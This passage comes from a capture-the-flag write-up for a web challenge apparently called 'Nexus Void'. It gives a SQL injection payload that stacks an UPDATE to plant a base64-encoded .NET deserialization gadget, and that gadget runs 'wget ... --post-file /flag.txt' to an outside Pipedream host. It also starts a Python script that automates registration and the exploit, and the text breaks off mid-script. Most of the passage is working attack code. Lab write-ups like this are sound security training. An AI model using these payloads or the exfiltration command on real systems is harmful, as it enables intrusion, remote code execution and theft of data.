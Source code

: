 	# base64-encoded
	eyIkdHlwZSI6Ik5leHVzX1ZvaWQuSGVscGVycy5TdGF0dXNDaGVja0hlbHBlciwgTmV4dXNfVm9pZCIsIm91dHB1dCI6bnVsbCwiY29tbWFuZCI6IndnZXQgaHR0cHM6Ly9lbzZ3dzM3d3gwN3F2bXYubS5waXBlZHJlYW0ubmV0IC0tcG9zdC1maWxlIC9mbGFnLnR4dCJ9
	```
- Inject the following payload into `name` field to overwrite `wishlist.data`.
	```
	' union select 1 , '', 3, 4, 5, 6, 7) as "n" LIMIT 1; UPDATE Wishlist SET data='eyIkdHlwZSI6Ik5leHVzX1ZvaWQuSGVscGVycy5TdGF0dXNDaGVja0hlbHBlciwgTmV4dXNfVm9pZCIsIm91dHB1dCI6bnVsbCwiY29tbWFuZCI6IndnZXQgaHR0cHM6Ly9lbzZ3dzM3d3gwN3F2bXYubS5waXBlZHJlYW0ubmV0IC0tcG9zdC1maWxlIC9mbGFnLnR4dCJ9' WHERE ID='1';--
	```
	- The reason to include a union select statement `union select 1 , '', 3, 4, 5, 6, 7` before the update statement is to prevent corruption of `wishlist.data` after overwrite. The function will **NOT** corrupt `wishlist.data` only when the product's name is null or empty.![14]({{ '/' | relative_url }}public/screenshots/Nexus Void/14.png){:style="display:block; margin-left:auto; margin-right:auto"}
	- `) as "n" LIMIT 1` is also necessary for the semicolon `;` to enable the execution of multiple SQL commands. The reason behind is explained in depth in the `Beyond Flag` section.

## Pull the Trigger
Now everything is set up. Simply visit the `Home/Wishlist` URL, and the Pipedream workflow will receive an HTTP request containing the flag.![15]({{ '/' | relative_url }}public/screenshots/Nexus Void/15.png){:style="display:block; margin-left:auto; margin-right:auto"}

# Automation
```python3
import requests, requests.cookies
import re
import base64

IP = "94.237.49.182"
Port = 50165

csrfPattern = re.compile(r'<input name="__RequestVerificationToken" type="hidden" value="([a-zA-Z0-9_\\-]+)" />')
exfiltrationPattern = re.compile(r'<h3 class="font-semibold text-lg px-3 mt-2 text-white">([0-9]+:hacker)</h3>')

payload = '''{"$type":"Nexus_Void.Helpers.StatusCheckHelper, Nexus_Void","output":null,"command":"wget https://eo6ww37wx07qvmv.m.pipedream.net --post-file /flag.txt"}'''

def register():
    print("Registering the user hacker with password 'hacker'...")
    r = requests.get(f"http://{IP}:{Port}/Login/Create")
    csrfToken = csrfPattern.search(r.text)[1]
    Cookie = r.headers["Set-Cookie"].split(";")[0]
    headers = {"Cookie": Cookie}
    data = {
        "username": "hacker",
        "password": "hacker",
        "__RequestVerificationToken": csrfToken,
    }
    r = requests.post(f"http://{IP}:{Port}/Login/Create", headers=headers, data=data)

def retrieveSession():
    # Login so that rest of the operations can be completed with session persistence
    with requests.Session() as session:    
        r = session.get(f"http://{IP}:{Port}")
        csrfToken = csrfPattern.search(r.text)[1]
        data = {
```